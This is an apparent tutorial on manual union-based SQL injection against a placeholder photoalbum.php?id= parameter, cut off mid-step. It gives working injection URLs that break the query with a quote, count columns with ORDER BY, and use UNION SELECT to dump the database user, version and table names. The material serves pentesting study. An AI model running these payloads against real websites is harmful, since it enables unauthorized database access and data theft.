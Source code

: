 #### Step 1 - Add the tick '

So first we should try to break the sql-syntaxt by adding a `'`. We should first ad a `'` or a `"`.

```text
http://example.com/photoalbum.php?id=1'
```

If the page then returns a blank page or a page with a sql-error we know that the page it vulnerable.

#### Step 2 - Enumerate columns

So in order to enumerate the columns of a table we can use the **order by**

**Order by 1** means sort by values of the first column from the result set. **Order by 2** means sort by values of the second column from the result set.

So it is basically just a tool to order the data in a table. But we can use it to find out how many columns a table has. Because if we do **order by 10** when there really only is 9 columns sql will throw an error. And we will know how many columns the table has.

```text
# This trhows no error
http://example.com/photoalbum.php?id=1 order by 9
# This throws error
http://example.com/photoalbum.php?id=1 order by 10
```

So you just increase the number \(or do a binary tree search if you want tot do it a bit faster\) until you get an error, and you know how many columns the table has.

#### Step 3 - Find space to output db

Now we need to know which coolumns are being outputed on the webpage. It could be that not all data from the database is worthwhile to output, so maybe only column 1 and 3 are being outputted to the website.

To find out which columns are being outputted we can use the **union select** command. So we do the command like this

```text
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4 - Start enumerating the database

Now we can use that field to start outputing data. For example if columns number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine \(mysql, mssql, postgres\).

```text
# Get username of the sql-user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,group_concat(table_name),6,7,8,9 from information_schema.tables

# Get all columns from a specific table

```